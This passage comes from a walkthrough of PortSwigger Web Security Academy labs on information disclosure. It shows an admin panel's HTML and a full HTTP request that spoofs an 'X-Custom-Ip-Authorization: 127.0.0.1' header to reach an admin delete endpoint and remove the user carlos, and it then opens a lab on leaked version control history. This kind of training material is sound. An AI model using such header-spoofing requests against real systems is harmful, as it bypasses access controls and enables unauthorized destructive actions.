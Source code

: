 **Response:**

```html
.
.
<section class="top-links">
<a href=/>Home</a><p>|</p>
<a href="/admin">Admin panel</a><p>|</p>
<a href="/my-account?id=wiener">My account</a><p>|</p>
<a href="/logout">Log out</a><p>|</p>
</section>
.
.
```

There we see we didn't change our account to administrator but we got access to admin functionality that we could use to delete the `carlos` user. To delete carlos user sends the get request like the following.

```
GET /admin/delete?username=carlos HTTP/2
Host: 0a8d008d03dc2eba801c5876002f0014.web-security-academy.net
Cookie: session=8YbNiyhY0Y8eQATX3pPgsHO8DllrAUSH
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://0a8d008d03dc2eba801c5876002f0014.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
X-Custom-Ip-Authorization: 127.0.0.1
```

In this lab, we see the debug message often shows some information that could use to fully compromise the server or can be used to do privilege escalation.

### LAB #5: Information disclosure in version control history

Lab URL: https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-version-control-history

**Objective:** Exploit the information disclosure by getting the version control history files left in the application that contains `administrator` credentials. Use that credentials to delete user carlos.

In this lab, we see some kind of shopping application that include some products. We can see product details by clicking on the **`View Details`** button. They redirect us to the product description link in which they have a description of the product and other information related to the product. We also have a `My account` endpoint that redirects us to the `/login` endpoint if we are not login, otherwise, they show us our account details. We can login to our account using the username and password combination.
